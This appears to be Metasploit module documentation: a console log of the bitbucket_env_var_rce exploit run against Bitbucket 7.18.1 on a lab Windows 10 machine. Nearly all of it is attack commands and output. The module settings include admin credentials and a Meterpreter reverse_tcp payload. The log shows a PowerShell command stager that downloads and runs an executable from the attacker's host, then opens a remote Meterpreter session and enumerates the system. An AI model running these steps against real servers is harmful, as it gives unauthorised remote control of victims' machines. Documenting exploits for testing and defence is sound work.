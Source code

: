 ### Windows 10, x64 - Bitbucket `v7.18.1`, Windows Dropper

```
msf > use exploit/multi/http/bitbucket_env_var_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.171
rhost => 192.168.140.171
msf exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(multi/http/bitbucket_env_var_rce) > set username admin
username => admin
msf exploit(multi/http/bitbucket_env_var_rce) > set password P@ssword
password => P@ssword
msf exploit(multi/http/bitbucket_env_var_rce) > set target 2
target => 2
msf exploit(multi/http/bitbucket_env_var_rce) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/http/bitbucket_env_var_rce) > set verbose true
verbose => true
msf exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version 7.18.1 of Bitbucket
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Retrieving security token
[*] Project creation was successful
[+] Successfully created repository 'GqFji'
[+] Commits added: 99a9d18e3a72d01bbdaac9bd8d84ba97bb3d7dad, 85a051cb3572b13e59816ff51b527706d66ae392
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/ZOwoRUPRlio
[*] Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile .\\xnbrdApP.exe http://192.168.140.1:8080/ZOwoRUPRlio", ".\\xnbrdApP.exe", "del .\\xnbrdApP.exe"]
[*] Client 192.168.140.171 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237) requested /ZOwoRUPRlio
[*] Sending payload to 192.168.140.171 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237)
[*] Command Stager progress -  75.19% done (97/129 bytes)
[*] Sending stage (175686 bytes) to 192.168.140.171
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.171:51236) at 2023-03-13 14:29:25 -0500
[*] Command Stager progress -  86.05% done (111/129 bytes)
[*] Command Stager progress - 100.00% done (129/129 bytes)
[*] Changing user name back to 'admin'
[*] Attempting to delete repository 'GqFji'
[+] Repository has been deleted
[*] Now attempting to delete project 'eTzDRa'
[+] Project has been deleted

meterpreter > getuid
Server username: DESKTOP-5JSUGC8\atlbitbucket
meterpreter > sysinfo
Computer        : DESKTOP-5JSUGC8
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
```
